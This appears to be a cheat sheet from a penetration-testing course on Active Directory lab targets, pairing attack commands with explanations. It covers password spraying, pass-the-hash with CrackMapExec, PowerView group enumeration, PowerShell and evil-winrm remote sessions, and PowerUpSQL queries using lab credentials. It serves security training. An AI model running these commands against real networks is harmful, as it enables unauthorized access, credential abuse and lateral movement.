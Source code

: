 `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`

> Uses `CrackMapExec` to validate a set of credentials from a Linux-based host.

`sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +`

> Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`.

`Import-Module .\DomainPasswordSpray.ps1`

> Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host.

`Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`

> Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host.

**Privileged Access**

Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"`

> PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host.

`Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"`

> PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host.

`$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force`

> Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host.

`$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)`

> Creates a variable (`$cred`) set equal to the username (`forend`) and password (`$password`) of a target domain account from a Windows-based host.

`Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred`

> Uses the PowerShell cmd-let `Enter-PSSession` to establish a PowerShell session with a target over the network (`-ComputerName ACADEMY-EA-DB01`) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior (`$cred` & `$password`).

`evil-winrm -i 10.129.201.234 -u forend`

> Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`.

`Import-Module .\PowerUpSQL.ps1`Used to import the `PowerUpSQL` tool.`Get-SQLInstanceDomain`

> PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host.

`Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'`

> PowerUpSQL tool used to connect to connect to a SQL server and query the version (`-query 'Select @@version'`) from a Windows-based host.

